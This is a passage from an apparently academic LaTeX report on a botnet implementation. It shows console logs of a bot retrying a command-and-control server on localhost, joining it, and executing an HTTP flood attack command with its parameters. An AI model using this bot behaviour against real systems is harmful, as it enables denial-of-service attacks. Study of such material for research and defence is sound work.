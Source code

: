followed by a command \texttt{REPORT} to send the bot report to the controller, and a command \texttt{KILL} shutdown the bot, respectively.
The following is the console output\footnote{classes and methods name indicated in \ref{sec:logging} have been omitted for better page formatting.}:

\begin{verbatim}
	08:36:54.937 [main] INFO initializeBot - Bot initialized with ID=7C-D1-C3-77-FA-24-25184@MBP
	08:36:54.938 [main] INFO joinBotnet - Joining botnet...
	08:36:54.939 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:36:55.202 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init.
                 Cannot load controller configuration.
	08:36:55.204 [main] INFO joinBotnet - Waiting for reconnection 3:SECONDS...
	08:36:58.209 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:36:58.217 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init. 
                 Cannot load controller configuration.
	08:36:58.217 [main] INFO joinBotnet - Waiting for reconnection 3:SECONDS...
	08:37:01.218 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:37:01.225 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init. 
                 Cannot load controller configuration.
	08:37:01.226 [main] INFO joinBotnet - Waiting for reconnection 3:SECONDS...
	08:37:04.228 [main] INFO joinBotnet - Contacting controller at http://localhost:4000/init...
	08:37:04.234 [main] WARN joinBotnet - Cannot connect to C&C at http://localhost:4000/init. 
                 Cannot load controller configuration.
	08:37:04.234 [main] WARN joinBotnet - Aborting connection to C&C at http://localhost:4000/init...
	08:37:04.234 [main] INFO joinBotnet - Contacting controller at http://localhost:3000/init...
	08:37:04.358 [main] INFO joinBotnet - Bot is up and running
	08:37:04.371 [main] INFO run - 
                 Received command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
                 from C&C at http://localhost:3000/command
	08:37:04.372 [main] INFO executeCommand - 
                 Executing command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,

\end{verbatim}

